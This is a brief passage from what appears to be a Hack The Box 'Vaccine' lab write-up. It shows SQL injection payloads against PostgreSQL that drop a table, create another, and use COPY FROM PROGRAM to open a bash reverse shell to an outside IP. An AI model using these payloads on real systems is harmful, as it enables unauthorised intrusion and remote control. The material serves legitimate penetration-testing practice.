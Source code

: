 ![1](/assets/images/htb/vaccine/14.png)

## <u>Exploit</u>

- I found this article 
- [Authenticated Arbitrary Command Execution on PostgreSQL 9.3 > Latest](https://medium.com/greenwolf-security/authenticated-arbitrary-command-execution-on-postgresql-9-3-latest-cd18945914d5)

- Let's try exploit it.
- by inserting this:
	- `';DROP TABLE IF EXISTS cmd_exec;--`
	- `';CREATE TABLE cmd_exec(cmd_output text);--`
	- `';COPY cmd_exec FROM PROGRAM 'bash -c "bash -i >& /dev/tcp/10.10.16.86/9901 0>&1";'--`

## <u>Reverse Shell</u>

- Got the reverse shell
